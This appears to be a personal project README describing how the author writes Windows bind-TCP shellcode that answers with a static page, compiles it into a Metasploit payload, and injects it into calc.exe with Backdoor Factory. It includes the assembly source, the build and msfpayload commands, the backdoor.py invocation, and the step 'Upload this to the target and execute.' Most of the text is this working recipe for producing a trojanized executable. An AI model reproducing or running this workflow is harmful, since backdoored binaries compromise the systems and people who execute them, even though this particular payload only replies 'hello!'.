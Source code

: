 Journeys in shellcode
---------------------
###### Tue Oct 28 22:04:54 EDT 2014

This project is about my travels in shellcode.

The main objective is to construct a simple (and I mean simple) webserver in shellcode, inject it into another executable, and let it survive happily accepting http requests and replying to all of them with a static page.

Step 1: Edit the shell code
---------------------------
metasploit-framework/external/source/shellcode/windows/x86/src/single/single_koth_bind_tcp.asm:
```

;-----------------------------------------------------------------------------;
; Author: Stephen Fewer (stephen_fewer[at]harmonysecurity[dot]com)
; Compatible: Windows 7, 2008, Vista, 2003, XP, 2000, NT4
; Version: 1.0 (28 July 2009)
; Size: 341 bytes
; Build: >build.py single_web_bind_tcp
;-----------------------------------------------------------------------------;
[BITS 32]
[ORG 0]

  cld                    ; Clear the direction flag.
  call start             ; Call start, this pushes the address of 'api_call' onto the stack.
%include "./src/block/block_api.asm"
start:                   ;
  pop ebp                ; Pop off the address of 'api_call' for calling later.
%include "./src/block/block_bind_tcp.asm"
  ; By here we will have performed the bind_tcp connection and EDI will be out socket.

call set_hello
hello:
 db "hello!",0x00
set_hello:
 pop ecx
 push byte 0             ; int flags
 push byte 7             ; int len
 push ecx                ; char *buf
 push edi                ; SOCKET s
 push 0x5F38EBC2         ; hash( "ws2_32.dll", "send" )
 call ebp                ; execute?

	; Finish up with the EXITFUNK.
%include "./src/block/block_exitfunk.asm"
```

Step 2: Compile the shell code into a metasploit module
-------------------------------------------------------
```bash
metasploit-framework/external/source/shellcode/windows/x86$ python build.py single_koth_bind_tcp >> ../../../../../modules/payloads/singles/windows/shell_koth_bind_tcp.rb
```

Step 3: Edit shell_koth_bind_tcp.rb
-----------------------------------
1. Fixup the PAYLOAD section
1. Fixup the LPORT offset
1. Fixup the EXITFUNC offset

Step 4: Compile the payload into an executable with Backdoor Factory
--------------------------------------------------------------------
```bash
$ msfpayload windows/shell_koth_bind_tcp LPORT=1337 EXITFUNC=thread R > /tmp/shell_bind.raw
$ bdf/backdoor.py -f /tmp/calc.exe -o calc_backdoor.exe -s user_supplied_shellcode -U /tmp/shell_bind.raw
```
Type 'append' when prompted. The resulting binary will be in `backdoored/calc_backdoor.exe`.

Upload this to the target and execute.

Known Problems
--------------
1. The server only listens to one request then it exits. I need to make it loop somehow.

